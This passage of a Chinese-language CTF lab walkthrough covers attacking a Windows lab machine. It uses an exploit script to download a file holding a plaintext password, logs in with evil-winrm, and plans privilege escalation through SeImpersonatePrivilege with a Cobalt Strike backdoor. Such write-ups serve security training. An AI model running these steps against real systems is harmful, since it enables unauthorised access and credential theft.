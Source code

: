```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# python3 51993.py -u http://192.168.200.4:6969
Press Ctrl+C to exit
File to download:
> /users/hacker/desktop/perico.txt
hacker:Perico69

```
成功获取 `hacker` 用户的密码

尝试看能不能登录
```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# evil-winrm -i 192.168.200.4 -u hacker -p Perico69

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents>

```
成功登录

## 9. 提权
先看一下当前用户的权限
```bash
INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                  Estado
============================= ============================================ ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio     Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Habilitada
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci¢n Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada

```
`SeImpersonatePrivilege` 权限允许我们利用别人的用户权限进行命令执行
可以传一个 [[26-工具使用/RunasCS使用\|RunasCS]] 进行利用。也可以用传土豆进行提权
但 `RunasCS` 需要另一个用户的账号密码 所以这里排除使用这个

这里我都不选。我用cs提权
传一个cs后门运行，上线
![Pasted image 20241203135830](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203135830.png)
